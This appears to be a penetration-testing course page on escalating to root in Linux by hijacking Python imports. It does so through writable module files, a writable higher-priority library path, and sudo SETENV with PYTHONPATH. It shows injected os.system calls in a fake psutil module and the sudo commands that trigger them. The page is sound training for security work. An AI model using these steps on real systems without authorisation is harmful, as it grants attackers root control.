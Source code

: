 There are many ways in which we can hijack a Python library. Much depends on the script and its contents itself. However, there are three basic vulnerabilities where hijacking can be used:

1. Wrong write permissions
2. Library Path
3. PYTHONPATH environment variable

---

## Wrong Write Permissions

#### Python Script

```shell
ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

By analyzing the permissions over the `mem_status.py` Python file, we understand that we can execute this script and we also have permission to view the script, and read its contents.

```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

#### Module Permissions

```shell
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```

```shell
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

#### Module Contents

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

```shell
sudo /usr/bin/python3 ./mem_status.py
```

---
## Library Path

In Python, each version has a specified order in which libraries (`modules`) are searched and imported from. The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. We can see this by issuing the following command:

#### PYTHONPATH Listing

```shell
python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

To be able to use this variant, two prerequisites are necessary.

1. The module that is imported by the script is located under one of the lower priority paths listed via the `PYTHONPATH` variable.
2. We must have write permissions to one of the paths having a higher priority on the list.
#### Psutil Default Installation Location

```shell
pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages
```
From this example, we can see that `psutil` is installed in the following path: `/usr/local/lib/python3.8/dist-packages`. From our previous listing of the `PYTHONPATH` variable, we have a reasonable amount of directories to choose from to see if there might be any misconfigurations in the environment to allow us `write` access to any of them. Let us check.
#### Misconfigured Directory Permissions

```shell
ls -la /usr/lib/python3.8
```

After checking all of the directories listed, it appears that `/usr/lib/python3.8` path is misconfigured in a way to allow any user to write to it. Cross-checking with values from the `PYTHONPATH` variable, we can see that this path is higher on the list than the path in which `psutil` is installed in. Let us try abusing this misconfiguration to create our own `psutil` module containing our own malicious `virtual_memory()` function within the `/usr/lib/python3.8` directory

#### Hijacked Module Contents - psutil.py

```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

In order to get to this point, we need to create a file called `psutil.py` containing the contents listed above in the previously mentioned directory. It is very important that we make sure that the module we create has the same name as the import as well as have the same function with the correct number of arguments passed to it as the function we are intending to hijack. This is critical as without either of these conditions being `true`, we will not be able perform this attack. After creating this file containing the example of our previous hijacking script, we have successfully prepped the system for exploitation.

#### Privilege Escalation via Hijacking Python Library Path

```shell
sudo /usr/bin/python3 mem_status.py
```

---

## PYTHONPATH Environment Variable

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import. This is important as if a user is allowed to manipulate and set this variable while running the python binary, they can effectively redirect Python's search functionality to a `user-defined` location when it comes time to import modules. We can see if we have the permissions to set environment variables for the python binary by checking our `sudo` permissions:

```shell
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

 It is important to note, that due to the trusted nature of `sudo`, any environment variables defined prior to calling the binary are not subject to any restrictions regarding being able to set environment variables on the system. This means that using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program. Let's try to do so now using the `psutil.py` script from the last section.
#### Privilege Escalation using PYTHONPATH Environment Variable

```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
